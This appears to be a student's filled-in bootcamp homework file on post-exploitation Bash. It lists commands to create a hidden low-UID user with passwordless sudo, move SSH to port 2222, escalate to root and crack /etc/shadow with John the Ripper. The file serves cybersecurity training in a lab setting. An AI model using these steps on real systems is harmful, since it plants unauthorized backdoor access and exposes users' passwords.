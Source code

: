 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - useradd sysd

2. Give your secret user a password: 
    - passwd sysd

3. Give your secret user a system UID < 1000:
    - usermod -u 932 sysd

4. Give your secret user the same GID:
   - groupmod -g 932 sysd

5. Give your secret user full `sudo` access without the need for a password:
   -  usermod -a -G sudo sysd

6. Test that `sudo` access works without your password:
   - su sysd 
   - sudo -l
   - "User sysd may run the following commands on scavenger-hunt:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL"

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:
   - # Port 22
   - Port 2222

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - systemctl restart ssh.service

2. Exit the `root` account:
    - exit

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo su (this one gave me a flag)
    or
    -sudo -s

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - sudo -s
    - john etc/shadow

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

